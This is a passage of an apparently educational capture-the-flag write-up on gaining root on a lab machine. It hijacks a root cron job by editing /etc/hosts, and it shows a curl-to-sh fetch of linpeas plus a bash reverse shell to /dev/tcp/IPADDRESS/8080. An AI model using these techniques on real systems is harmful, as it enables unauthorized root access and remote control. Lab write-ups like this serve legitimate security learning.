 ```
curl 10.10.35.187/linpeas.sh | sh
```


##  Privilege Escalation

>The other file, todo.txt had some juicy info.

>The last bullet point questions on how the user Paradox got the automated build script working and where the builds go. Therefore, there is some sort of automation at working here to build the Go Binaries. The Go Binary and the build script were provided at the /downloads page in the website. I spent a long time trying stuff and did not find anything. With nowhere to go, I tried running LinPeas to get any info.
carlospolop/privilege-escalation-awesome-scripts-suite
PEASS - Privilege Escalation Awesome Scripts SUITE (with colors) …

>After analyzing its output, I noticed it! There was a cron job running to compile the binaries! Ugh, why didn’t I think of that earlier? 🤦‍♂️ It clearly said AUTOMATION.

>Anyways, cron is a time-based job scheduler in *nix systems.

>In /etc/crontab, you can read all the scheduled events. Unfortunately, the current user cannot edit it. Let me explain the cron job,

>This is it. This command is going to be run as root. Since I could not edit the command, I need to somehow inject custom bash code and run it as root. One possible avenue is running a bash script to gain a reverse shell as root. But how could I add my own script in the overpass.thm domain? This is where it gets interesting. Have a look at the /etc/hosts file,

>The overpass.thm domains point to the localhost (127.0.0.1). I can edit it and change it to my IP address. Then I can host a server with a custom bash script which will give me a reverse shell. When the cron job runs, it will go to my server and download my malicious script and make the overpass-prod server run it as root! Thus, gaining a root shell.

>Well, if it is hard to wrap your head around this method, here is a simple diagram explaining the scenario 🙂
### Step 1

Edit the /etc/hosts file to include your machine IP address. Find your IP address using,
```bash
ip addr
```

### Step 2

Create the reverse shell script, name it buildscript.sh and make it executable. Then host it in the exact folder path i.e. /downloads/src

Resource for awesome reverse shells! 👇
Reverse Shell Cheat Sheet
If you're lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards…

pentestmonkey.net
```bash
$ mkdir -p downloads/src 
$ cat 'bash -i >& /dev/tcp/IPADDRESS/8080 0>&1' > /downloads/src/buildscript.sh
$ chmod +x /downloads/src/buildscript.sh
```
